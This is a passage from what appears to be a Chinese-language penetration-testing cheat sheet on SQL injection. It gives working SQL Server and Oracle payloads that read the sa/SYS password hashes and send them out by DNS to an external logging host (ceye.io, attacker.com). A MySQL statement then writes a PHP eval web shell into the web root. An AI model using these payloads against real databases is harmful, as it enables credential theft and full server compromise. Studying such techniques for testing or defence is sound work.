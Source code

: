 **SQL Server:**

```
DECLARE @host varchar(1024);
select @host=(SELECT TOP 1 master.dbo.fn_varbintohexstr(password_hash) FROM sys.sql_logins WHERE name='sa')+'sqlserver.mjchag.ceye.io';
EXEC('master..xp_dirtree "\\'+@host+'\foobar$"');    
#将master..xp_dirtree替换成master..xp_subdirs、master..xp_fileexist
```

**Oracle:**

```
SELECT UTL_INADDR.GET_HOST_ADDRESS('test.example.com');
或
SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.attacker.com',80) FROM DUAL;
```

参考地址：https://bbs.pediy.com/thread-198931.htm 

### 数据库getshell

**mysql:**

1、当secure_file_priv为空时mysql可以任意写文件，进而getshell。

![](media/2019-12-31-06.png)

```
select '<?php eval($_POST['huahua'])?>' out_file 'C:\\phpstudy\\WWW\\evil.php'
```

![](media/2019-12-31-07.png)

说到了mysql写文件顺便说一个另类的读文件的方法，并且在secure_file_priv=NULL时也可以使用
